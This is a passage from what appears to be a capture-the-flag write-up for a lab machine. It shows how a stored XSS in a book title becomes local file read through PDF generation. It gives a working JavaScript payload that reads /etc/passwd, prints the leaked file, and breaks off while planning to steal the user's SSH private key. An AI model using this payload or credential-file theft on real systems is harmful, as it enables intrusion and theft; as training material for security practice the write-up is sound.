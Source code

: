 We can now logged in as `admin@book.htb` using the password `q`.

Missing picture: admin panel as admin

The admin panel allow to download the users' and books' collections.
As we saw previously the files `book title` and `book author` are vulnerable to
an XSS.

It is possible to [transform an XSS in a generated PDF into an LFI](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html).

We create a new book with our user account and put a specific JavaScript payload
in the `book title`.

    <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>

Then we generate the collection PDF. It will include the whole `/etc/passwd`
file. We see that the only system user is `reader` (UID 1000).

    :::text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:GnatsBug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd NetworkManagement,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemdResolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
    reader:x:1000:1000:reader:/home/reader:/bin/bash
    mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/

We need to get a shell on the box and if possible a persistent access (like a
checkpoint) as a password or ssh private key. That's why we just try to get
`/home/reader/.ssh/id_rsa` with the following payload:
